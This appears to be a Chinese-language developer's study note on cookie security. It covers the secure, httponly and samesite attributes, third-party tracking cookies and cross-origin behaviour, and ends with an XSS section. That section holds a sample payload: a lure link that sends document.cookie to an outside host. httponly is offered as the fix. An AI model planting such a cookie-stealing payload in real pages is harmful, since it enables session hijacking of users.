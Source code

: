 ##### cookie的安全性
- secure选项：当请求时HTTPS或其他安全连接时，才会被发送
  但是保存在本地的cookie文件并未被加密
  在http协议的网页中无法设置该字段
- httponly选项：用来设置cookie是否可以被js访问
  客户端是不能设置该字段的，只能由服务端通过set-cookie设置
- samesite选项：限制第三方cookie，他可以设置3个值：
  - strict：完全禁止第三方cookie，跨站点时不会发送cookie
  - lax：大多数情况也不发送cookie，但是a标签会发送
    | 请求类型 | 示例 | 正常情况 | Lax |
    |-|-|-|-|
    |链接|`<a href="" />`|true|true|
    |预加载|`<link rel="prerender" href="" />`|true|true|
    |GET表单|`<form method="GET action="" />`|true|true|
    |POST表单|`<form method="POST" action="" />`|true|false|
    |ifream|`<ifream src="" />`|true|false|
    |AJAX|get('')|true|false|
    |img|`<img src="" />`|true|false|
  - none: 关闭same-site，但要同时设置`secure`,`Set-Cookie: widget_session=abc123; SameSite=None; Secure`


##### 第三方cookie
通常cookie的域和浏览器地址的域匹配，被称为第一方cookie。那么第三方cookie就是cookie的域域地址的域不匹配，这种cookie通常用在第三方广告网站，为了跟踪用户的浏览记录，提供广告服务。
例如：
用户访问`www.a.com`，这个网站与`www.ad.com`合作，页面中有`ad.com`的图片，请求这张图片时，`ad.com`就会设置cookie`ser-cookie: name='user';like='1'`
当用户访问另一个页面时，同样存在`ad.com`的资源，这样在请求该资源时会将之前设置的cookie发送过去，此时`ad.com`就能通过cookie获取到用户的访问记录，然后设置新的cookie，给用户推送广告

storage

##### 跨域与Cookie以及CSRF与Cookie的疑惑
[参考](https://juejin.cn/post/6844903934310498312)
[参考2](https://juejin.cn/post/6958413563799011365)
[参考3](https://www.cnblogs.com/imgss/p/cors.html)
总结：跨域时不会携带本域的cookie，但会携带目标域的cookie，浏览器会自动添加符合要求的cookie，但是`samesite`选项使第三方cookie受到限制


### 安全
#### XSS
使用跨站点脚本可以窃取cookie，当允许js获取cookie时，就会发生攻击者发布恶意代码攻击用户的会话，拿到用户的cookie，例如：
```html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```
当用户点击链接时，就会将cookie发送到`abc.com`
解决办法：可以设置`httponly`，防止js获取cookie
